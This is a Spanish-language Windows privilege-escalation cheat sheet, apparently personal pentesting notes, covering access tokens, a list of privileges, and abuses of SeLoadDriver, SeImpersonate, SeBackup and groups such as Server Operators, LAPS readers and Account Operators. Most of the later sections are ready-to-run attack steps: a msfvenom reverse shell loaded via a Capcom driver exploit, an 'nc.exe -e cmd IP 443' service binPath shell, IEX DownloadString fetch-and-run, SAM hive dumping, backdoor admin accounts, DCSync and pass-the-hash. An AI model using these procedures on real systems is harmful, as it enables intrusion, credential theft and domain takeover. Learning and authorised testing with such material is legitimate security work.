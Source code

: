 # Escalación de privilegios en Windows 

Tags: #AD #Windows #SeImpersonatePrivilege #SeAssignPrimaryTokenPrivilege

* [Escalacion-Privilegios-Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [Abusando de Tokens Windows - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

## Tokens de acceso 

Los tokens de acceso en Windows son estructuras de datos que almacenan la información de seguridad y de usuario asociada a un proceso o hilo. Estas estructuras son esenciales dentro del modelo de seguridad de Windows, ya que definen los derechos y privilegios asignados a un proceso o hilo específico en el sistema.

A continuación, se presentan detalles clave sobre los tokens de acceso en Windows:

```bash 
1. Tipos de Tokens: Hay dos tipos principales de tokens en Windows:
    
    - Token de usuario: Representa a un usuario que se ha autenticado con éxito. Está asociado con todos los procesos iniciados por ese usuario.
    - Token primario: Es el token asociado con un proceso cuando se inicia.
    - Token de impersonación: Permite a un hilo actuar con diferentes niveles de privilegio de su proceso contenedor. Es útil, por ejemplo, cuando un servicio necesita realizar tareas con privilegios diferentes.
        
    
2. Información en Tokens: Un token de acceso contiene información como:
    
    - Identificador de usuario (User SID): Identifica al usuario asociado con el token.
    - Grupos SID: Identifica a los grupos de los que el usuario es miembro.
    - Privilegios: Define acciones específicas que el usuario puede realizar, como apagar el sistema o cambiar la hora del sistema.
    - Tipo de token: Indica si el token es primario o de impersonación.
    - Nivel de impersonación: Si es un token de impersonation, este campo especifica el nivel (Anónimo, Identificación, Impersonación, Delegación).
    - Discretionary Access Control List (DACL): Especifica qué objetos puede acceder el portador del token y con qué permisos.
        
    
3. Impersonation: Esta es una característica clave en Windows que permite a un hilo tomar el token de otro usuario y "impersonarlo", es decir, actuar con los privilegios de ese usuario. Es útil en situaciones como servidores que necesitan acceder a recursos en nombre de un cliente.
    
4. Token Stealing: En el contexto de la seguridad, los tokens de acceso pueden ser objeto de abuso por parte de atacantes. Si un atacante logra comprometer un proceso o hilo con privilegios elevados, puede "robar" el token asociado y usarlo para impersonar a ese usuario o proceso de alto privilegio, facilitando la escalación de privilegios o el movimiento lateral.
    
5. Creación de Tokens: Los tokens de acceso se crean durante el proceso de autenticación. Cuando un usuario inicia sesión en una máquina Windows, el sistema genera un token de acceso que representa al usuario y a todos sus grupos y privilegios asociados.
    
6. Modificación de Tokens: A través de APIs específicas, es posible modificar tokens, aunque generalmente esto requiere privilegios elevados. Esta capacidad puede ser abusada por malware o atacantes para alterar los derechos y permisos de un token.
```

Los tokens de acceso desempeñan un papel fundamental en la infraestructura de seguridad de Windows. Brindan una notable flexibilidad para la gestión de identidades y accesos, aunque también pueden convertirse en un posible punto de ataque si no se manejan y protegen de forma adecuada. Por ello, es esencial que los administradores y expertos en seguridad entiendan su funcionamiento y las medidas necesarias para prevenir su uso indebido.

## Privilegios en Windows

* [Niveles de integridad - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels)

En los sistemas operativos Windows, los privilegios son permisos otorgados a las cuentas de usuario y servicios, los cuales determinan las acciones que pueden ejecutarse en el sistema. Estos privilegios regulan aspectos clave de la seguridad y la administración del sistema, permitiendo desde la modificación del reloj del sistema hasta la gestión de registros y configuraciones de seguridad. A continuación, te presento una lista de los privilegios disponibles en Windows, aunque es importante tener en cuenta que esta lista puede variar ligeramente según la versión del sistema operativo.

```bash 
1. SeAssignPrimaryTokenPrivilege: Asignar un token primario a un proceso.
2. SeAuditPrivilege: Generar eventos de auditoría de seguridad.
3. SeBackupPrivilege: Omitir comprobaciones de permisos para realizar operaciones de respaldo.
4. SeChangeNotifyPrivilege: Omitir la notificación de cambio de directorio.
5. SeCreateGlobalPrivilege: Crear objetos globales.
6. SeCreatePagefilePrivilege: Crear un archivo de paginación.
7. SeCreatePermanentPrivilege: Crear objetos permanentes.
8. SeCreateSymbolicLinkPrivilege: Crear enlaces simbólicos.
9. SeCreateTokenPrivilege: Crear un token de objeto.
10. SeDebugPrivilege: Depurar programas.
11. SeEnableDelegationPrivilege: Habilitar la delegación de seguridad.
12. SeImpersonatePrivilege: Impersonar a un cliente después de la autenticación.
13. SeIncreaseBasePriorityPrivilege: Aumentar la prioridad de proceso.
14. SeIncreaseQuotaPrivilege: Aumentar cuotas de proceso.
15. SeIncreaseWorkingSetPrivilege: Aumentar el conjunto de trabajo de un proceso.
16. SeLoadDriverPrivilege: Cargar y descargar controladores de dispositivos.
17. SeLockMemoryPrivilege: Bloquear páginas en memoria.
18. SeMachineAccountPrivilege: Agregar equipos al dominio.
19. SeManageVolumePrivilege: Realizar mantenimiento de volumen.
20. SeProfileSingleProcessPrivilege: Realizar monitoreo de rendimiento.
21. SeRelabelPrivilege: Modificar etiquetas de integridad de objetos.
22. SeRemoteShutdownPrivilege: Forzar el apagado desde un sistema remoto.
23. SeRestorePrivilege: Omitir comprobaciones de permisos para realizar operaciones de restauración.
24. SeSecurityPrivilege: Administrar auditoría y registro de seguridad.
25. SeShutdownPrivilege: Apagar el sistema.
26. SeSyncAgentPrivilege: Sincronizar datos de directorio.
27. SeSystemEnvironmentPrivilege: Modificar la configuración del entorno del firmware.
28. SeSystemProfilePrivilege: Realizar monitoreo de rendimiento del sistema.
29. SeSystemtimePrivilege: Cambiar la hora del sistema.
30. SeTakeOwnershipPrivilege: Tomar propiedad de archivos u otros objetos.
31. SeTcbPrivilege: Actuar como parte del sistema operativo.
32. SeTimeZonePrivilege: Cambiar la zona horaria.
33. SeTrustedCredManAccessPrivilege: Acceder a credenciales guardadas de manera segura.
34. SeUndockPrivilege: Desacoplar el sistema de la base.
35. SeUnsolicitedInputPrivilege: Leer la entrada no solicitada del terminal interactivo.
```  

Cada uno de estos privilegios otorga la capacidad de realizar acciones concretas en el sistema que pueden influir en su configuración, seguridad y funcionamiento general. Los administradores del sistema deben gestionar y asignar estos privilegios con cuidado para garantizar la seguridad y el correcto desempeño de los sistemas Windows.

## Privilegios Windows para escalar 

```bash 
❯ whoami /priv        # Muestra los privilegios del usuario actual 
```

```powershell 
1. 'SeLoadDriverPrivilege' = Permite 'cargar drivers firmados' que se ejecutan con permisos del 'kernel (ring 0)'. Si puedes cargar un 'driver malicioso' (uno que eleva privilegios), te puedes convertir en 'NT AUTHORITY\SYSTEM' o incluso ejecutar código arbitrario en el núcleo


Pasos:
❯ https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp    # Copiar el codigo en Visual studio creando un nuevo proyecto 'Aplicación de consola'. Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'EoPLoadDriver.exe' a la máquina Windows comprometida
❯ https://github.com/FuzzySecurity/Capcom-Rootkit/tree/master/Driver    # Descargar el archivo 'Capcom.sys' y transferirlo a la máquina Windows comprometida
❯ .\EoPLoadDriver.exe System\CurrentControlSet\MyService C:\Windows\Temp\Capcom.sys  # Cargar el driver y debe de mostrar 'NTSTATUS: 00000000, WinError: 0'
❯ https://github.com/tandasat/ExploitCapcom   # Descargar el proyecto completo en zip para abrirlo desde Visual Studio. Modificar la linea de 'LaunchShell' y colocar "C:\\ProgramData\\reverse.exe". Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'ExploitCapcom.exe' a la máquina Windows comprometida
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o reverse.exe  # Crear el archivo al cual llamará 'ExploitCapcom.exe' al momento de ejecutarse y transferirlo a la máquina Windows comprometida
❯ .\ExploitCapcom.exe        # Ejecutar el archivo en Windows y obtener la revershell en Kali 

Notas:
	1. Si al momento de compilar da un error, eliminar '#include "stdafx.h"' y volverlo a compilar
	2. La ruta donde compila los archivos la muestra en la consola 
	3. Para obtener la revershell se debe estar en escucha con 'Netcat'
```

```powershell
2. 'SetImpersonatePrivilege' = Abusando de 'SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege'. Si un usuario tiene los privilegios antes mencionados se puede aprovechar para obtener acceso a nivel de SYSTEM


Pasos:
❯ https://github.com/wh0amitz/PetitPotato/releases/tag/v1.0.0   # Descargar el archivo y transferirlo a la máquina Windows comprometida 
❯ PetitPotato.exe 3 cmd         # Crear una cmd con rl usuario 'NT Authority\System' 
	# EfsID = '3' es el numero de API a usar
❯ PetitPotato.exe 3 "whoami"    # Ejecutar un comando  
❯ PetitPotato.exe 3 "net user omar P4ssw0rd /add"               # Crear un user siendo 'NT Authority\System'
❯ PetitPotato.exe 3 "net localgroup Administrators omar /add"   # Agregar el usuario al grupo 'Administrators'
❯ PetitPotato.exe 3 "net user Omar"                             # Mirar el grupo de un usuario en especifico

Notas:
	1. Despues de crear un usuario para tener persistencia, podemos ingresar a con RDP si esta abierto el puerto '3389'
	2. También se pude utilizar 'RottenPotato o JuicyPotato'
```

```powershell
3. 'SeBackupPrivilege' = Permite leer cualquier archivo del sistema, ignorando sus permisos NTFS. Se puede copiar archivos críticos del sistema como el 'SAM, SYSTEM o NTDS.dit', incluso si no tiene permisos NTFS explícitos para ello. Estos archivos contienen información sensible como: 'Hashes de contraseñas locales, Credenciales de cuentas del dominio (si es un DC) y Configuraciones de seguridad'


Pasos:   
❯ reg save hklm\sam C:\temp\sam.hive            # Hacer una copia de la SAM al directorio creado y se descarga
❯ reg save hklm\system C:\temp\system.hive      # Hacer una copia del system y se descarga 

❯ impacket-secretsdump -sam sam.hive -system system.hive LOCAL     # Dumpear los hashes de los usuarios desde Kali 

Notas:
	1. https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md      # Forma de explotar 
```

## Grupos Windows para escalar 

```bash 
❯ net user <user>     # Mirar los grupos del usuario 
```

```powershell
1. 'Azure Admins' = Si puedes acceder a Azure AD Connect desde un usuario del grupo 'Azure Admins', puedes extraer credenciales privilegiadas y 'escalar a Domain Admin'.


Pasos: 
❯ https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0   # Descargar el archivo AdDecrypt.zip y extraer su contenido para obtener 'AdDecrypt.exe, mcrypt.dll' y transferir los archivos a la máquina Windows comprometida
❯ 'C:\Program Files\Microsoft Azure AD Sync\Bin'  # Ir a la siguiente ruta y ejecutar el 'AdDecrypt.exe'
❯ AdDecrypt.exe -FullSQL      # Ejecutar la herramienta para extraer credenciales del usuario Admin 

Notas: 
	1. El AdDecrypt.exe y mcrypt.dll se deben de encontrar en la misma carpeta
```

```powershell 
2. 'Server Operators' = Si pertenece a este grupo en un sistema Windows, se tiene ciertos privilegios elevados 'localmente' sobre los servidores y se puede 'iniciar, detener, configurar, crear, reiniciar realizar backups' sobre los servicios existentes.


Pasos:
❯ nc.exe     # Descargar y tranferir el archivo a la máquina Windows comprometida para hacer la Revershell
❯ services   # Mirar todos los servicios que se estan ejecutando 
❯ sc.exe create <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Crear un servicio 
❯ sc.exe config <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Modificar un servicio 
❯ sc.exe stop <service>         # Detener un servicio 
❯ sc.exe start <service>        # Iniciar un servicio 
```

```powershell 
3. 'LAPS_Readers' =  Los miembros del grupo 'LAPS\Readers' tienen 'permiso de lectura' sobre los atributos de Active Directory donde se almacenan las 'contraseñas locales administradas automáticamente'. Por lo tanto, se puede leer la contraseña del administrador local de las máquinas unidas al dominio, conectarte con esa contraseña y tomar el control de la máquina como 'administrador local'.


Pasos:
❯ https://github.com/kfosaaen/Get-LAPSPasswords   # Descargar 'Get-LAPSPasswords.ps1' y transferirlo a la máquina Windows comprometida
❯ IEX (New-Object Net.WebClient).DownloadString('https://IP/Get-LAPSPasswords.ps1')  # Importar el modulo 
❯ Get-LAPSPasswords          # Ejecutar la función para obtener la password de Administrator
```

```powershell
4. 'Account Operators' = Si se esta en el grupo con 'GenericAll' sobre 'Exchange Windows Permissions' se puede crear un usuario y agregarlo al grupo. Además, si se tiene un usuario en el grupo 'Exchange Windows Permissions' con 'WriteDacl', se puede ejecutar un DCSync sobre el dominio para obtener los hashes de todos los usuarios y hacer un Pass-The-Hash


Pasos:
❯ net user omar P4ssw0rd /add /domain       # Crear un usuario a nivel de dominio por pertenecer al grupo 'Account Operators'
❯ net group "Exchange Windows Permissions" omar /add     # Agregar al usuario al grupo 'Exchange Windows Permissions'
❯ net group        # Mirar los grupos existentes 
❯ net user omar    # Mirar la info del usuario 


# Agregar el privilegio de DCSync al usuario  
❯ $SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
	# password = Contraseña del usuario 
❯ $Cred = New-Object System.Management.Automation.PSCredential('domain1.local\user', $SecPassword)
❯ Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=domain1,DC=local" -PrincipalIdentity user -Rights DCSync 
	# user = Usuario que se agrego en la variable $Cred

Notas: 
	1. El comando de 'Add-DomainObjectAcl' solo se puede ejecutar cuando se carga el módulo de 'PowerView.ps1'


# Hacer DCSync desde Kali 
❯ impacket-secretsdump domain1.local/user@IP-DC    # Ejecutar el DCSync con el usuario creado
	# IP-DC = La dirección IP del DC  
❯ impacket-psexec domain1.local/Administrator@IP cmd.exe -hashes :hash   # Utilizar 'psexec' para ingresar con el usuario 'Administrator' haciendo 'Pass-The-Hash'    
```

